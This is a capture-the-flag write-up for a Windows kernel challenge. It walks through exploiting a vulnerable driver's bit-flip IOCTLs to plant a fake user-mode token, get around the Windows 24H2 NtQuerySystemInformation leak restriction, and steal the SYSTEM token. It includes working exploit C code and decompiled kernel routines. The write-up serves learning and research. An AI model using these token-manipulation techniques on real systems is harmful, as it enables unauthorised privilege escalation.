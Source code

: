 # Process Flipper

##  Brief Introduction

This is a windows kernel exploit challenge, the goal is to reach SYSTEM privilege to read the flag from `C:\flag.txt` via `ProcessFlipper.sys`. Analyzing this file, we can see there're 2 IOCTL handlers: one will turn on a bit and the other will turn off a bit, both interactions only affect on current process's `_EPROCESS`, which mean we're having an arbitrary write on `_EPROCESS` because we can modify anything within this range.

## Initial Steps

My first thought was to attack `_TOKEN` structure since it's one of a really powerful field that can produce really strong primitives.

```c
void arbWrite(int offset, DWORD64 val, DWORD size) {
	BYTE inputBuf[0x10] = { 0 };

	for (int i = 0; i < size; i++) {
		BYTE cVal = ((val >> (8 * i)) & 0xff);

		for (int j = 0; j < 8; j++) {
			*(DWORD64*)inputBuf = ((offset + i) << 3) + j;

			if (((cVal >> j) & 1) != 0)
				DeviceIoControl(hDevice, IOCTL_TURN_ON_BIT, inputBuf, 4, NULL, NULL, NULL, NULL);
			else DeviceIoControl(hDevice, IOCTL_TURN_OFF_BIT, inputBuf, 4, NULL, NULL, NULL, NULL);
		}
	}
}

...

DWORD64 fakeToken = (DWORD64)VirtualAlloc((LPVOID)0x1000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (fakeToken != 0x1000000) {
    puts("[-] VirtualAlloc failed");
    return -1;
}

...

arbWrite(0x248, 0x1000038, 8);

...
```

I allocated a buffer at address `0x1000000`, and overwrite the token with `0x1000038`. This works because as of right now, SMAP hasn't been available to Windows, which enable us to control this field under usermode address, and the reason why I choose this specific address will be discussed later.

We need to explore some of the mechanisms of `_TOKEN` structure in order to gain desired primitives:

### Arbitrary Read

In `NtQueryInformationToken`, when we query `TokenBnoIsolation`:

```c
if ( TokenInformationClass == TokenBnoIsolation )
{
    LOBYTE(TokenInformation) = PreviousMode;
    result = SepReferenceTokenByHandle(
                v8,
                8,
                (int)TokenInformation,
                TokenInformationLength,
                (PVOID *)&Object,
                (__int64)&v148,
                (__int64)&DestinationSid);  // --- [1]
    if ( result < 0 )
        return result;
    v136 = KeGetCurrentThread();
    --v136->KernelApcDisable;
    v47 = Object;
    ExAcquireResourceSharedLite(Object->TokenLock, 1u);
    v137 = 16;
    BnoIsolationHandlesEntry = v47->BnoIsolationHandlesEntry;
    if ( BnoIsolationHandlesEntry )
        v137 = BnoIsolationHandlesEntry->EntryDescriptor.IsolationPrefix.MaximumLength + 16;
    *v12 = v137;
    if ( TokenInformationLength < v137 )
        goto LABEL_97;
    if ( v47->BnoIsolationHandlesEntry )
    {
        v6[8] = 1;
        *(_QWORD *)v6 = v6 + 16;
        memmove(
        v6 + 16,
        v47->BnoIsolationHandlesEntry->EntryDescriptor.IsolationPrefix.Buffer,
        v47->BnoIsolationHandlesEntry->EntryDescriptor.IsolationPrefix.MaximumLength);      // --- [2]
    }
    else
    {
        v6[8] = 0;
        *(_QWORD *)v6 = 0LL;
    }
    goto LABEL_157;
}
```

At `[1]`, it'll obtain our `_TOKEN` via user's provided handle value, and stored it in `Object`. After some sanity checking and locking, it'll copy a buffer from `_TOKEN` back to user. Since we can modify pointers in `_TOKEN`, we can set this buffer pointer to a targeted address and the length of data we want to read.

### Bring back NtQuerySystemInformation to life

But because the challenge is running on the latest `Windows 24H2`, leak tricks like `NtQuerySystemInformation` will not work anymore, so we need to find a way to leak `_EPROCESS` address to make our arbitrary read userful.

Examining `NtQuerySystemInformation` when query `SystemExtendedHandleInformation`:

```c
BOOLEAN __stdcall SeSinglePrivilegeCheck(LUID PrivilegeValue, KPROCESSOR_MODE PreviousMode)
{
    ...
    v6 = SepPrivilegeCheck((_DWORD)ClientToken, (unsigned int)&v27, 1, 1, PreviousMode);    // --- [3]
    ...
}

__int64 __fastcall ExIsRestrictedCaller(KPROCESSOR_MODE a1, _DWORD *a2)
{
    unsigned int v2; // edi
    BOOLEAN v5; // bl
    struct _SECURITY_SUBJECT_CONTEXT SubjectContext; // [rsp+50h] [rbp-28h] BYREF
    NTSTATUS AccessStatus; // [rsp+80h] [rbp+8h] BYREF
    ACCESS_MASK GrantedAccess; // [rsp+88h] [rbp+10h] BYREF

    v2 = 0;
    AccessStatus = 0;
    GrantedAccess = 0;
    memset(&SubjectContext, 0, sizeof(SubjectContext));
    if ( a2 )
    *a2 = 0;
    if ( !a1 )
    return 0LL;
    if ( a2 && (unsigned int)Feature_H2E_WPA3SAE__private_IsEnabledDeviceUsage_1() )
    *a2 = SeSinglePrivilegeCheck(SeDebugPrivilege, a1) == 0;    // --- [2]
    SeCaptureSubjectContext(&SubjectContext);
    v5 = SeAccessCheck(
            SeMediumDaclSd,
            &SubjectContext,
            0,
            0x20000u,
            0,
            0LL,
            (PGENERIC_MAPPING)&ExpRestrictedGenericMapping,
            1,
            &GrantedAccess,
            &AccessStatus);     // --- [4]
    SeReleaseSubjectContext(&SubjectContext);
    if ( !v5 )
    return 1LL;
    LOBYTE(v2) = AccessStatus < 0;
    return v2;
}

...
if ( (a4 & 7) == 0 )
{
    LOBYTE(v12) = AccessMode;
    if ( !(unsigned int)ExIsRestrictedCaller(v12, &v226, v15, v13) )    // --- [1]
    {
        ObjectInformation = ExpGetHandleInformationEx(v226, a4, Length, &v219);
        v28 = 5LL;
        goto LABEL_99;
    }
    return -1073741790;
}
...
```

The code will reach at `[1]` first, this call is being added only to this version of windows to prevent attackers abusing `NtQuerySystemInformation`.

Analyzing this function further, it'll reach `[2]` then `[3]` to call `SepPrivilegeCheck`. This code will get `_TOKEN->Privileges.Enabled` and `_TOKEN->Privileges.Present` AND each other and check if the bit of `SeDebugPrivilege` is enable in both of these fields. After this check, it'll come to `[4]` to check whether our process is in Medium integrity.

To summarize, `NtQuerySystemInformation` will only enable to process that has Medium integrity and `SeDebugPrivilege`, which users from `Administration` account higher has this. Since our process is ran at Medium integrity, we only need to find a way to bypass the `SeDebugPrivilege` check to gain this leak primitive. Luckily for us, this check performs on `_TOKEN` structure, at `Privileges.Enabled` and `Privileges.Present` fiedls, which we can entirely control.

So to enable `NtQuerySystemInformation`, we just need to set `_TOKEN->Privileges.Enabled` and `_TOKEN->Privileges.Present` to have `SeDebugPrivilege` bit:

```c
*(DWORD64*)(fakeToken + 0x30 + 0x40) = 0xffffffffffffffff;	// enable SeDebugPrivilege
*(DWORD64*)(fakeToken + 0x30 + 0x48) = 0xffffffffffffffff;	// enable SeDebugPrivilege
*(DWORD64*)(fakeToken + 0x30 + 0x50) = 0xffffffffffffffff;	// enable SeDebugPrivilege
```

We need to make space for the first 0x30 bytes of our fake token, because at some point, the code will call `ObfDereferenceObjectWithTag` on our token:

```c
LONG_PTR __stdcall ObfDereferenceObjectWithTag(PVOID Object, ULONG Tag)
{
  v2 = (_OBJECT_HEADER *)((char *)Object - 48);
  if ( ObpTraceFlags )
    ObpPushStackInfo(v2, 0, 1u, Tag);
  v4 = _InterlockedExchangeAdd64(&v2->PointerCount, 0xFFFFFFFFFFFFFFFFuLL); 
  v5 = v4 <= 1;
  BugCheckParameter4 = v4 - 1;
  if ( !v5 )
    return BugCheckParameter4;
  ...
}
```

There's a reference count in this object at offset `-0x30`, we need to put a value at this offset to prevent BSOD happening.

And after gaining desired primitives, we just need to replace current fake token with System's token and get the flag:

```c
*(WORD*)(fakeBuf + 0x2a) = 0x10;		// fake size
systemEproc = leakEproc(4);
*(DWORD64*)(fakeBuf + 0x30) = (DWORD64)(systemEproc + 0x248);		// fake buffer

ULONG returnLen = 0;
BYTE tokenInfo[0x100] = { 0 };
ntQueryInformationToken(GetCurrentProcessToken(), TokenBnoIsolation, (PVOID)tokenInfo, 0x100, &returnLen);

DWORD64 systemToken = *(DWORD64*)(tokenInfo + 0x10);
arbWrite(0x248, systemToken, 8);

system("notepad.exe C:\\flag.txt");
```

## Reference:
https://starlabs.sg/blog/2023/11-exploitation-of-a-kernel-pool-overflow-from-a-restrictive-chunk-size-cve-2021-31969/#arbitrary-readwrite

https://windows-internals.com/kaslr-leaks-restriction/